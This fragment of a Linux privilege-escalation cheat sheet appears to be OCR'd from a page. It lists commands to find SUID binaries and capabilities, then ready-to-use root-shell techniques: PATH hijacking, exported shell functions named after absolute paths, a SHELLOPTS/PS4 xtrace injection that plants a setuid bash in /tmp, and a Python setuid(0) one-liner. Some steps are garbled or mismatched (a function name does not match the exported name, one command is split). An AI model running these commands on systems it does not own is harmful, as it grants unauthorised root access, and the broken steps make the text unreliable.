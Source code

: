 ```
export PATH=/tmp:$PATH
```

```
/usr/local/bin/onfoundsuid
```

## Functions, ShellOpts & PS4

```
find / -type f -perm -04000 -ls 2>/dev/null
```

```
strings /usr/local/bin/onfoundsuid
```

C functions such as setresgid, setresuid, and system are of interest and should be investigated. Absolute or Relative path commands such as "service" can be abused by creating functions in the current shell session.

Method 1

```
function /usr/sbin/onfoundsuid() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```

```
export -f /usr/sbin/service
```

```
/usr/local/bin/onfoundsuid
```

Method 2

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && 
```

```
chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/onfoundsuid; set +x; /tmp/bash -p'
```

## Capabilities

```
getcap -r / 2>/dev/null
```

#### Python 2.6

```
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

## Cron
